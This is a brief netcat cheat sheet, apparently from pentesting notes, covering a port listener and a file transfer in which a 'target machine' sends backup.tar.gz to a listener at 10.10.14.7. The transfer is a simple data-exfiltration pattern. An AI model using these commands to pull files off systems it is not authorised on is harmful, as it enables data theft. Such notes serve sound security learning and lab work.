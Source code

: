 # Netcat

Netcat is a simple Unix utility which reads and writes data across network connections, using the TCP/IP protocol.

## Listen on a port

```bash
nc -lvpn 4444
```

## Transfer files

On your machine:
```bash
nc -lvnp 1337 > backup.tar.gz
```

On the target machine:
```bash
nc 10.10.14.7 1337 < backup.tar.gz
```
